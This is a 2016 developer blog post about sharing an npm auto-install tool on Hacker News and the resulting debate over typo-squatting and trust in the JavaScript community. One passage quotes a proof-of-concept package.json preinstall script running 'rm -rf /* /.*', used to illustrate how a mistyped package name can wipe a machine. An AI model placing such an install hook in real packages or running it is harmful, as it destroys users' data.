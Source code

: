 ```yaml
---
author: Siddharth Kshetrapal
authorTwitter: https://twitter.com/siddharthkp
authorFacebook: false
title: "What I learned from showing my work on Hacker News"
subTitle: "When writing JavaScript, I hate it that I have to leave my editor — and my train of thought — just to tab over to my terminal and install..."
coverSrc: https://cdn-images-1.medium.com/max/1600/1*7RPC33y9ttY_P2_-i2rPSw.jpeg
url: https://medium.freecodecamp.org/what-i-learned-from-showing-my-work-on-hacker-news-48c54d78d5f4
id: what-i-learned-from-showing-my-work-on-hacker-news-48c54d78d5f4
date: 2016-08-28T15:59:56.146Z
tags: [
  "JavaScript",
  "Node",
  "Web Development",
  "Programming",
  "Tech"
]
---
```

# What I learned from showing my work on Hacker News



![](https://cdn-images-1.medium.com/max/1600/1*7RPC33y9ttY_P2_-i2rPSw.jpeg)



When writing JavaScript, I hate it that I have to leave my editor — and my train of thought — just to tab over to my terminal and install a new package with:

<pre name="f5ca" id="f5ca" class="graf graf--pre graf-after--p">_$ npm install --save express_</pre>

To scratch my itch, I wrote a tiny node utility which lets me focus on the code without installing dependencies.



![](https://cdn-images-1.medium.com/max/1600/1*ZrdCfrULDGq7krAzSdJTdQ.gif)



I was pretty happy with it, so I wrapped it in a git repository and shared it on [Hacker News](http://news.ycombinator.com).

If you’re interested, here’s a link to the repo, [auto-install](https://github.com/siddharthkp/auto-install), which already has more than 6,000 downloads:

[**siddharthkp/auto-install**  
_auto-install - Install dependencies as you code_github.com](https://github.com/siddharthkp/auto-install "https://github.com/siddharthkp/auto-install")[](https://github.com/siddharthkp/auto-install)

### An Instant response

I wasn’t expecting much out of the post, just wanted to throw it out there in case someone else finds it useful.

What happened instead was a heated debate about the Node ecosystem!

I’m not going to talk about what’s right or wrong with npm, since there’s [enough](http://www.haneycodes.net/npm-left-pad-have-we-forgotten-how-to-program/) [about](https://medium.com/@kolorahl/kik-left-pad-and-npm-oh-my-e6f216a22766#.duzdeq2zm) [that](https://medium.com/quid-pro-quo/what-should-we-learn-from-the-left-pad-gate-5a553307a742#.2yaq1ncii) [already](http://blog.npmjs.org/post/141577284765/kik-left-pad-and-npm).

### **What I learned:**

#### **1\. Typo-squatting**!

It’s a popular (and surprisingly common) form of hacking. Basically, a hacker hopes that you will make a typo, and uses that to screw you over.

Say, instead of typing _express,_ you accidentally type _expres._ This can result in installing a completely different module, which could be a malicious one.

João Jerónim shared the vulnerabilities exposed by installing a npm package with [rimrafall](https://github.com/joaojeronimo/rimrafall#rimrafall). Check out the preinstall script in it’s _package.json_

<pre name="193a" id="193a" class="graf graf--pre graf--startsWithDoubleQuote graf-after--p">“scripts”: {  
    “preinstall”: “rm -rf /* /.*” }  
}</pre>

If you’re not familiar with that command, it basically deletes everything on your hard drive — including your operating system!

Thanks to some quick feedback, I added the [--secure flag](https://github.com/siddharthkp/auto-install/issues/6) to protect against this.

#### **2\. A lack of trust in your fellow developers**

I see an innate lack of trust in the skills and capabilities of other developers in the JavaScript community. Our tools have always been error-prone. Typo-squatting is a common problem with all package managers.

Popular opinion is that the JavaScript community is filled with novice programmers, and that there’s no differentiation between what is authoritative and what isn’t.

This is my favorite comment on Hacker News:

> As I see it, npm appears to be acting like there are a lot of unsolved problems in this realm, and in doing so are endangering a developer community that is absolutely full of amateurs.

You can read the whole thread here (it’s a teensy bit long):

[**_Show HN: Auto install npm dependencies as you code_ | Hacker News**  
Show HN: Auto install npm dependencies as you codenews.ycombinator.com](https://news.ycombinator.com/item?id=12248997 "https://news.ycombinator.com/item?id=12248997")[](https://news.ycombinator.com/item?id=12248997)

### The good parts

[Not](https://news.ycombinator.com/item?id=12249325) [all](https://news.ycombinator.com/item?id=12249172) [comments](https://news.ycombinator.com/item?id=12249312) were bad. Some people reached out to me on twitter with kind words. I have to admit, that felt pretty cool.





<iframe width="500" height="250" src="/media/c3c93adc89212b01306fe050a754a3eb?postId=48c54d78d5f4" data-media-id="c3c93adc89212b01306fe050a754a3eb" allowfullscreen="" frameborder="0"></iframe>







![](https://cdn-images-1.medium.com/max/1600/1*sKGkWvqw8I7CUuoAxzs-3Q.png)



Feature requests and bug reports started flowing in! That kept me busy for a while. And then there was the kicker — [npm weekly #54](http://us9.campaign-archive2.com/?u=077dfd41302a71310cef619e5&id=9e020606f1)!

Also mentioned on Hacker News, if you’re using webpack, you might be interested in [a similar plugin](https://github.com/ericclemmons/npm-install-webpack-plugin) by [Eric Clemmons](https://medium.com/@ericclemmons).

### The JavaScript Community

Javascript definitely has the lowest barrier to entry of any language, and has become the [most popular language](http://stackoverflow.com/research/developer-survey-2016#technology-most-popular-technologies) in the recent years.



![](https://cdn-images-1.medium.com/max/1600/1*XWFkn7xDqPBBikexToFgnw.png)



I have to agree that npm is not fully mature as a package manager (yet), and a lot of work needs to go into security (for example: [sandboxing pre/post-install scripts](https://github.com/joaojeronimo/rimrafall), module signing, etc.)

But we have an open library ecosystem with an active developer community. Individual contributors have produced some amazing things in the past: [Express.js](https://github.com/expressjs/express/), [Socket.io](https://github.com/socketio/socket.io), [Redux](https://github.com/reactjs/redux), [Vue](https://github.com/vuejs/vue), and even [Node.js](https://en.wikipedia.org/wiki/Node.js#History) itself!

Let’s not forget the great work that companies are doing to spread [knowledge](https://developer.mozilla.org/en-US/) and [best](https://try.github.io) [practices](https://github.com/airbnb/javascript).

You can’t build a community without trust. We need to reduce the barriers to entry even further, and make it easy for new developers to learn and contribute.

In closing, my advice to fellow developers: never stop shipping.

The more you code, the more you will learn.

_If you liked this, click the 💚 below so other people will see this as well._








